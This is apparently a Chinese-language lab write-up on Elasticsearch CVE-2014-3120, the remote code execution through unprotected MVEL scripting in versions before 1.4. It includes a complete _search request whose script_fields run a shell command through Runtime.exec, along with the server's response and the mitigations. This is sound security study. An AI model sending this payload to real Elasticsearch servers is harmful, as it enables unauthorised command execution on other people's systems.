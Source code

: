 # elasticsearch-cve_2014_3120

今天练习一个“古老”的CVE，关于分布式检索与分析引擎ElasticSearch，也是我这段时间朝夕相处的ELK组件之一。



## 前置知识

### 什么是脚本引擎

所谓的脚本引擎，是为了增强程序的可配置性。怎么理解这个概念呢？首先让我们回顾一下程序的组成，程序 = 数据结构 + 算法。其中，算法就是我们对机器“说的话”，那机器怎么知道我们说话的含义呢？这就需要一个“翻译官”的角色，让我们说所的话（逻辑算法）能让机器明白。这之间，当然还需要好几个翻译官配合。那我们的脚本引擎所处的位置就是：人——程序——脚本引擎——......——机器。

可以看到，脚本引擎不是必须的，不是每个程序都需要一个留一个口子让人进去说话，但对于一个需要实现复杂功能的程序/系统来说，脚本引擎则起到了一个增强性的功能，让程序更加灵活，能做更多的配置。



#### ES Scripting的历史

| 版本                  | 使用的脚本引擎 |
| :-------------------- | :------------- |
| < Elasticsearch 1.4   | MVEL           |
| < Elasticsearch 5.0   | Groovy         |
| ‘>= Elasticsearch 5.0 | painless       |

本篇中我们浮现的漏洞就位于< ES 1.4版本，用的是MVEL脚本引擎，这个脚本赢取最大的安全问题就是——几乎没有任何安全机制。



## 利用过程

### 信息搜集

首先，我们模拟传统的渗透过程，进行信息搜集（此处省略），扫描发现端口服务，发现ES服务，访问后可以看到：

![](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/20200824233200.png)

此ES版本低于1.4，可以直接利用MVEL脚本引擎无安全防护的漏洞，进行远程代码执行，借助的接口或者说是功能入口是`script_fields` - `command` - `script`。



### 漏洞利用

首先要明确一下漏洞利用的过程：

-   由于脚本引擎没有安全机制，所以我们发送的恶意代码都可以执行
-   我们可以通过`_search`方法（ES的一种API）传入script代码
-   ES会动态执行传入的script代码，从而使机子运行后门



首先，`_search`方法会显示当前ES的记录，如果没有记录，则会报错。所以对一个空的ES我们需要用`POST`或`PUT`方法先插入数据：

![](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/20200825002601.png)

这里我用Postman发包，看到请求方法`POST`，在ES中想插入数据可以用这个请求方法，请求链接为`xxx/site/test?pretty=true`，其中site是我命名的index（索引），test为我创建的type（类型）。Body是我发送的JSON格式数据，创建一条字段名为name，值为test的记录。这些都是ES的概念，不清楚的同学可以查看：[Mastering Elasticsearch(中文版)](https://doc.yonyoucloud.com/doc/mastering-elasticsearch/chapter-1/121_README.html)。

接下来，直接上我们的神器Behinder看看

![](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/20200825004819.png)

果然是报错了，大马的命令更复杂，容易产生问题。我们可以根据这个情况魔改一下，参考：[冰蝎，从入门到魔改](https://mp.weixin.qq.com/s?__biz=MzAwMzYxNzc1OA==&mid=2247485811&idx=1&sn=dfe68ca403b7009e2f41e622dd2b690f)、[冰蝎，从入门到魔改（续）](https://www.anquanke.com/post/id/212739)。



### 获得Flag

今天比较晚了，先直接使用JAVA代码读取`/tmp`路径下的flag：

```java
import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();
```

完整请求包为：

```json
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

响应信息为：

```json
{
  "took" : 10,
  "timed_out" : false,
  "_shards" : {
    "total" : 5,
    "successful" : 5,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 1.0,
    "hits" : [ {
      "_index" : "site",
      "_type" : "test",
      "_id" : "18Mqj5DuTN22Eb8WO-JzGw",
      "_score" : 1.0,
      "fields" : {
        "command" : [ "flag-{bmh0c5431ab-e4ec-4195-9818-94b20de3788f}\nhsperfdata_root\n" ]
      }
    } ]
  }
}

```

获得Flag。



## 修复

-   升级版本
-   设置 `script.disable_dynamic = true`，官方已在1.2版本中将 true 设置为默认值



## 总结

这是一个由于脚本引擎未做安全机制防护所导致的RCE，现在比较少见了。但是也可以看出，在程序中，有动态代码执行、脚本引擎的地方往往是比较危险的，在开发过程中需要格外注意。在蓝队的检测过程中，对于这些脚本引擎执行的相关数据需要额外注意。



## TODO

-   看冰蝎的入门到魔改：[冰蝎，从入门到魔改](https://mp.weixin.qq.com/s?__biz=MzAwMzYxNzc1OA==&mid=2247485811&idx=1&sn=dfe68ca403b7009e2f41e622dd2b690f)、[冰蝎，从入门到魔改（续）](https://www.anquanke.com/post/id/212739)


